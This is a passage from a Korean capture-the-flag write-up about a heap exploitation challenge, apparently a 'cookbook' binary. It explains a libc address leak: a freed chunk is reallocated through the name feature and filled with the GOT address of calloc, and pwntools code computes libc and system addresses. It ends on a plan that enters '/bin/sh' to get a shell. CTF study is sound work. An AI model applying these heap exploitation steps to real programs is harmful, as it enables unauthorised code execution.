 ```python

s.recvuntil("[q]uit\n")
s.sendline("q")
```

## libc_leak

이건 처음에 고민 좀 했는데 왜냐하면 `recipe_menu - [n]ew recipe`는 `calloc`을 사용해서 **uaf**같은걸 사용할 수 없었어요.

그러다 `main_menu - [g]ive your cookbook a name!`를 찾았어요.

`leak`하는 방법은 `free`된 `my_recipe`랑 같은 크기로 할당받아서 같은 곳에 `chunk`를 할당받고 `recipe`의 `ingredient_list`, `ingredient_cal_list` 대신 `특정 함수의 got` 같은걸 넣어서 `heap_leak`처럼 출력하면 `libc_leak`을 할 수 있어요.

```python
# libc_leak
s.recvuntil("[q]uit\n")
s.sendline("g")

s.recvuntil("how long is the name of your cookbook? (hex because you're both a chef and a hacker!) :")
s.sendline("40c")

payload = p32(calloc_got) * 2
s.sendline(payload)

s.recvuntil("[q]uit\n")
s.sendline("c")
s.recvuntil("[q]uit\n")
s.sendline("p")
s.recvuntil("(null)\n\n")
libc_calloc = 0x100000000 + int(s.recvuntil(" "), 10)

libc_base = libc_calloc - calloc_off
libc_system = libc_base + system_off

log.info("libc_base : " + hex(libc_base))
log.info("libc_calloc : " + hex(libc_calloc))
log.info("libc_system : " + hex(libc_system))
print

s.recvuntil("[q]uit\n")
s.sendline("q")
```

- - -
# 0x02. 공격 방법

1. 이름으로 `/bin/sh\0` 입력

2. `heap_leak`
